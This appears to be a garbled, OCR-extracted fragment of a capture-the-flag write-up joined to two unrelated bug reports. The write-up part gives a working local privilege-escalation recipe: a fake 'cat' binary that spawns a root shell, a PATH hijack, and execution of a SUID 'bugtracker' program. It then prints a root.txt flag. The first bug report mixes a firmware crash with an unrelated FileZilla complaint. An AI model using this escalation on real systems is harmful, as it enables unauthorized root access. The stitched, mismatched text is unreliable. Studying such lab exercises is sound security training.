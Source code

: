 > echo /bin/bash -P > cat 

or

> echo /bin/sh > cat

- Switch to local tmp file 'cat'

> chmod +x cat 

- Add PATH

> export PATH=/home/robert/tmp:$PATH

then exec bugtracker

any root privilege read file's bin root.txt

<pre>
root.txt
af13b0bee69f8a877c3faf667f7beacf
</pre>

## Report contents

- Report 1

<pre>
Binary package hint: ev-engine-lib
Version: 3.3.3-1
Reproduce:
When loading library in firmware it seems to be crashed
What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.
What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
</pre>

- Report 2

<pre>
If you connect to a site filezilla will remember the host, the username and the password (optional). The same is true for the site manager. But if a port other than 21 is used the port is saved in .config/filezilla - but the information from this file isn't downloaded again afterwards.
ProblemType: Bug
DistroRelease: Ubuntu 16.10
Package: filezilla 3.15.0.2-1ubuntu1
Uname: Linux 4.5.0-040500rc7-generic x86_64
ApportVersion: 2.20.1-0ubuntu3
Architecture: amd64
CurrentDesktop: Unity
Date: Sat May 7 16:58:57 2016
EcryptfsInUse: Yes
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)
</pre>
